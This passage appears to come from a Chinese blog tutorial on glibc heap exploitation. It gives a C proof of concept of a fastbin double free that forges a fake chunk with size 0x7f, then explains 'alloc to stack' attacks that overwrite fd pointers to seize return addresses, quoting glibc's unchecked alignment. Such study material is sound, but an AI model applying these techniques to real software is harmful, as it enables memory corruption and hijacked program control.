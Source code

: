 ```c
#include <stdlib.h>
#include <stddef.h>
#include <stdio.h>

int main()
{   

    size_t* chunk1=malloc(0x60);
    size_t* chunk2=malloc(0x60);
   

    free(chunk1);
    free(chunk2);
    free(chunk1);
  
    chunk1=malloc(0x60);
    size_t fake_chunk[4];
    chunk1[0]=fake_chunk;
    fake_chunk[0]=0;
    fake_chunk[1]=0x7f;
    fake_chunk[2]= NULL;
    malloc(0x60);
    malloc(0x60);
    size_t* dest_chunk=malloc(0x60);
    return 0;
}
```
![在这里插入图片描述](https://i-blog.csdnimg.cn/direct/4f1841aad4c04c66a85487a99c53f877.png)


## Alloc to Stack & Arbitrary Alloc

劫持 fastbin 链表中 chunk 的 fd 指针，把 fd 指针指向我们想要分配的地址处，从而实现控制一些关键数据，比如返回地址等。

fastbin中fd 指向的内存能申请出来的前提是该内存对应 size 处的值与该 fast bin 对应 size 相同。

```c
 if (victim != 0)
        {
          if (__builtin_expect (fastbin_index (chunksize (victim)) != idx, 0))
            {
              errstr = "malloc(): memory corruption (fast)";
            errout:
              malloc_printerr (check_action, errstr, chunk2mem (victim), av);
              return NULL;
            }
            …………
        }
```
一般先通过house of spirit或者double free进而能够劫持fd，一般只会检查`if (__builtin_expect (victim_idx != idx, 0))`和`fastbin_index`会检查右移动4位（64位系统）后的size和当前fastbin对应的size是否一致（0x7f等价于0x70）没有检查地址对齐和size对齐
